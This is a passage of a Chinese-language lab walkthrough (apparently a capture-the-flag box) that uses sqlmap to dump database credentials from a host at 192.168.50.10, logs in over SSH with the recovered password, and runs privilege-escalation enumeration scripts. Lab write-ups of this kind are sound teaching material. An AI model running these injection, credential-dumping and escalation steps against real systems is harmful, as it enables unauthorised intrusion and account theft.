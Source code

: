 [![](assets/1704158282-123c0bec2cbea57b68d9550d23463a7a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231229010618-6ab1d304-a5a3-1.png)

<3> 使用sqlmap跑一遍，方便拿到更多信息。因为过滤了单引号，可以尝试调高探测等级。

```plain
sqlmap -u "http://192.168.50.10/jabcd0cs//ajax_udf.php?q=1&add_value=odm_user"  --level=3 --risk=3 -D jabcd0cs -T odm_user -C username,password --dump
sqlmap -u "http://192.168.50.10/jabcd0cs//ajax_udf.php?q=1&add_value=odm_user"  --level=3 --risk=3 --current-user
sqlmap -u "http://192.168.50.10/jabcd0cs//ajax_udf.php?q=1&add_value=odm_user"  --level=3 --risk=3 --is-dba
```

> root@localhost，DBA权限  
> 从jabcd0cs.odm\_user 获取到以下用户凭证信息（需md5解密）：webmin:webmin1980 guest:guest  
> 从mysql.user 获取到以下用户凭证信息：root:toor phpmyadmin:toor drupal7:toor

# 立足点1：shell as user1（ssh）

既然从数据库拿到了登录凭据，则尝试进行SSH，使用 `webmin:webmin1980` 进行ssh登录成功。拿到初始访问权限.

```plain
ssh webmin@192.168.50.10
```

# 0x05 提权信息收集、漏洞探针

`LinEnum.sh` 脚本自动执行提权过程中可能用到的几十条命令并整理输出，有关键的发现会以黄色标题突出显示。使用`linux-exploit-suggester.sh`脚本进行漏洞探针

```plain
scp LinEnum.sh webmin@192.168.50.10:/tmp

./LinEnum.sh -r linenum_info -e /tmp/ -t
./linuxprivchecker.py -w -o linuxprivchecker.log
./linux-exploit-suggester.sh -g

//文件/home/webmin/post.tar.gz
tar -zxvf post.tar.gz
file post.tar.gz
binwalk post.tar.gz
```
